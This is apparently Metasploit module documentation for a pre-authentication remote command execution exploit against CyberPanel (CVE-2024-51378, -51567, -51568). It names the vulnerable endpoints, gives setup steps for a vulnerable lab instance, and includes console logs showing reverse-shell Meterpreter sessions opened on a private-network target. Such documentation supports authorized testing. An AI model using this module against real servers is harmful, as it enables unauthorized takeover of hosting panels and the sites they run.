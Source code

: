 ## Vulnerable Application

CyberPanel is an open-source web hosting control panel based on OpenLiteSpeed.
This module exploits two pre-authenticated remote command execution (RCE) vulnerabilities found in certain versions of
CyberPanel.

- **CVE-2024-51378**: The `getresetstatus` endpoint in `dns/views.py` and
  `ftp/views.py` in CyberPanel before commit `1c0c6cb` allows remote attackers to
  bypass authentication and execute arbitrary commands via `/dns/getresetstatus` or
  `/ftp/getresetstatus` by bypassing `secMiddleware`(which applies only to POST
  requests) and using shell metacharacters in the `statusfile` property.
  This vulnerability has been exploited in the wild as of October 2024 by PSAUX, affecting versions through 2.3.6 and
  the unpatched 2.3.7.

- **CVE-2024-51567**: The `upgrademysqlstatus` endpoint in `databases/views.py` in
  CyberPanel before commit `5b08cd6` allows remote attackers to bypass authentication
  and execute arbitrary commands via `/dataBases/upgrademysqlstatus`, also by
  bypassing `secMiddleware` and using shell metacharacters in the `statusfile` property.
  This vulnerability has similarly been exploited in the wild in October 2024
  by PSAUX, impacting versions through 2.3.6 and the unpatched 2.3.7.

- **CVE-2024-51568**: CyberPanel before 2.3.5 allows command
  injection via completePath in the ProcessUtilities.outputExecutioner() sink.
  This vulnerability includes unauthenticated remote code execution via shell
  metacharacters in the /filemanager/upload (aka File Manager upload) endpoint,
  exploiting shell metacharacters for arbitrary command execution.

These vulnerabilities allow attackers to execute commands on the server without needing authentication.

### Installation Instructions

To set up a vulnerable instance of CyberPanel for testing, follow these
instructions on an Ubuntu 18.04 server (or later).
The example below demonstrates installation on Ubuntu 18.04, though newer versions of Ubuntu should work as well.

1. First, install necessary dependencies and disable IPv6 to avoid potential network issues:

```bash
sudo su -
apt update && apt install -y curl wget
sysctl -w net.ipv6.conf.all.disable_ipv6=1
sysctl -w net.ipv6.conf.default.disable_ipv6=1
```

2. Then, download and run the CyberPanel installation script:

```bash
sh <(curl https://cyberpanel.net/install.sh || wget -O - https://cyberpanel.net/install.sh)
```

3. During installation, choose the following options:
    - Install CyberPanel: Select option `1`
    - Install CyberPanel with OpenLiteSpeed: Select option `1`
    - Skip full installation (choose `n`)
    - Skip Postfix, PowerDNS, and PureFTPd installations
    - Skip Remote MySQL setup
    - Install CyberPanel version `2.3.4` when prompted
    - Decline Memcached and Redis installations
    - Decline WatchDog setup for Web service and Database service

## Verification Steps

1. Install CyberPanel as outlined above.
2. Start `msfconsole`.
3. Use the module path: `use exploit/unix/webapp/cyberpanel_preauth_rce_multi_cve`.
4. Set the `RHOSTS` option to the target server’s IP.
5. Run the exploit with the desired CVE (choose either `cve-2024-51567`, `cve-2024-51568` or `cve-2024-51378`).
6. A successful exploitation should provide a shell on the target.

## Options

No option

## Scenarios

### Example: CVE-2024-51567 on CyberPanel 2.3.5 (Ubuntu 18.04)

To exploit `CVE-2024-51567` and achieve remote command execution:

```bash
msf6 exploit(unix/webapp/cyberpanel_preauth_rce_multi_cve) > set action CVE-2024-51567
action => CVE-2024-51567
msf6 exploit(unix/webapp/cyberpanel_preauth_rce_multi_cve) > run http://192.168.1.16:8090

[*] Started reverse TCP handler on 192.168.1.36:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. Target is running CyberPanel and is vulnerable.
[*] Sending stage (3045380 bytes) to 192.168.1.16
[*] Meterpreter session 4 opened (192.168.1.36:4444 -> 192.168.1.16:35194) at 2024-11-21 22:26:12 +0100

meterpreter > sysinfo 
Computer     : 192.168.1.16
OS           : Ubuntu 18.04 (Linux 5.4.0-150-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > 
```

### Example: CVE-2024-51378 on CyberPanel 2.3.5 (Ubuntu 18.04)

To exploit `CVE-2024-51378` and achieve remote command execution:

```bash
msf6 exploit(unix/webapp/cyberpanel_preauth_rce_multi_cve) > set action CVE-2024-51378
action => CVE-2024-51378
msf6 exploit(unix/webapp/cyberpanel_preauth_rce_multi_cve) > run http://192.168.1.16:8090

[*] Started reverse TCP handler on 192.168.1.36:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. Target is running CyberPanel and is vulnerable.
[*] Sending stage (3045380 bytes) to 192.168.1.16
[*] Meterpreter session 5 opened (192.168.1.36:4444 -> 192.168.1.16:39820) at 2024-11-21 22:27:06 +0100

meterpreter > sysinfo 
Computer     : 192.168.1.16
OS           : Ubuntu 18.04 (Linux 5.4.0-150-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > 
```

### Example: CVE-2024-51568 on CyberPanel 2.3.4 (Ubuntu 18.04)

```bash
msf6 exploit(unix/webapp/cyberpanel_preauth_rce_multi_cve) > set action CVE-2024-51568
action => CVE-2024-51568
msf6 exploit(unix/webapp/cyberpanel_preauth_rce_multi_cve) > run http://192.168.1.16:8090

[*] Started reverse TCP handler on 192.168.1.36:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] CSRF Token retrieved: CtCqolh8EQHkik3J8sjbUxPemD9PN8j2cZ7QBIxtUN3zmHQ1sbSnXOCBVWr00kI7
[*] CSRF Token retrieved: ExmQR7HciOpdsPRrh43NNjGNYaLbRb6pKnap4Z5onPfVGjPqCNFyehTAqIpBrSuB
[+] The target is vulnerable. Target is running CyberPanel and is vulnerable.
[*] CSRF Token retrieved: NMATUvqAxFW2bU5bnhvFf860BfFrj8DGMqtSXS81RbmxjifXo9sJCe1KM7933cIY
[*] Sending stage (3045380 bytes) to 192.168.1.16
[*] Meterpreter session 7 opened (192.168.1.36:4444 -> 192.168.1.16:46212) at 2024-11-21 22:37:00 +0100

meterpreter > sysinfo 
Computer     : 192.168.1.16
OS           : Ubuntu 18.04 (Linux 5.4.0-150-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > 
```

